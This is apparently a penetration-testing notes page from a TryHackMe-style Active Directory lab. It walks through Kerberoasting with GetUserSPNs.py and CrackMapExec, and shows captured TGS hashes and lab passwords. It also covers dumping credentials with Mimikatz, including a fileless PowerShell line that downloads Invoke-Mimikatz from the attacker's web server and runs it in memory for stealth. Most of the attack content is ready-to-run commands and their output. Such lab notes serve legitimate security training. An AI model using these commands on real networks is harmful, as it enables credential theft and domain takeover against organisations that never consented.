 It will be able to retrieve both `krbtgt` and `SQLService` if using userfile 

```bash
┌──(kali㉿kali)-[~/thm]
└─$ GetUserSPNs.py -dc-ip 10.10.104.42 CONTROLLER.local/Administrator:'P@$$W0rd' -usersfile userfile.txt -request -outputfile tgs_hash.txt
Impacket v0.10.1.dev1+20230511.163246.f3d0b9e - Copyright 2022 Fortra

[-] CCache file is not found. Skipping...
$krb5tgs$18$krbtgt$CONTROLLER.LOCAL$*krbtgt*$8facc4acada694d392981216$3da7515f6817c79c65a2a7076b70ea36f001e343d5dfeafadc3...
$krb5tgs$23$*SQLService$CONTROLLER.LOCAL$SQLService*$2b778eda8560262829da55a4c6dc8868$f9fbd0627bef617b9f0ff3b62a887d8d...
```


#### Using CrackMapExec

> Not recommended, very slow and buggy

```bash
crackmapexec ldap 10.10.104.42 -u "SQLService" -p "MYpassword123#" --kerberoasting KERBEROASTING
```


## Dumping hashes w/ mimikatz
---


### Preparation


### Fileless (PowerShell)

Execute mimikatz directly in memory is more stealthy

Attacker Side:

```bash
┌──(kali㉿kali)-[/opt/sectools/powershell/Invoke-Mimikatz]
└─$ python3 -m http.server 80
```

On Victim:

```powershell
*Evil-WinRM* PS C:\Users\Administrator\Documents> iex (new-object net.webclient).downloadstring("http://10.11.19.145/Invoke-Mimikatz.ps1"); Invoke-Mimikatz
```


### Windows Binary

**Setup Share Folder**

```bash
┌──(kali㉿kali)-[/opt/sectools/powershell]
└─$ mimikatz

> mimikatz ~ Uses admin rights on Windows to display passwords in plaintext

/usr/share/windows-resources/mimikatz
...
└── x64
    ├── mimidrv.sys
    ├── mimikatz.exe
    ├── mimilib.dll
    └── mimispool.dll
    
┌──(kali㉿kali)-[/usr/share/windows-resources/mimikatz]
└─$ cp x64/mimikatz.exe /tmp/www
```